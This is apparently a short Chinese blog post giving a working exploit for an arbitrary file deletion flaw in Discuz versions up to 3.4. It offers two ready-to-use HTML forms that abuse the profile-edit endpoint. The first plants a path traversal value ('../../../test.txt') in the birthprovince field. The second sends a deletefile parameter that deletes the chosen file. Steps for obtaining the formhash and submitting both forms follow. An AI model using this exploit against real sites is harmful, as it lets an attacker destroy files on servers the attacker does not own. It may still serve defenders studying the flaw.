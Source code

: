 ```yaml
---
title: "discuz 任意文件删除"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


漏洞影响范围 discuz <= 3.4

<!--more-->

**exp**

```
<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="text"name="birthprovince" id="text" value="../../../test.txt" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>

<br />

<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa" method="POST" enctype="multipart/form-data">
<input type="file"name="birthprovince" id="file" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>
```

首先在前台注册账号

个人中心 修改个人资料

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461557.jpg)

右键查看 formhash

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461560.jpg)

修改 exp 中的网址

填上要删除的文件 formhash 选择文件

两个 submit 分别提交

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461562.jpg)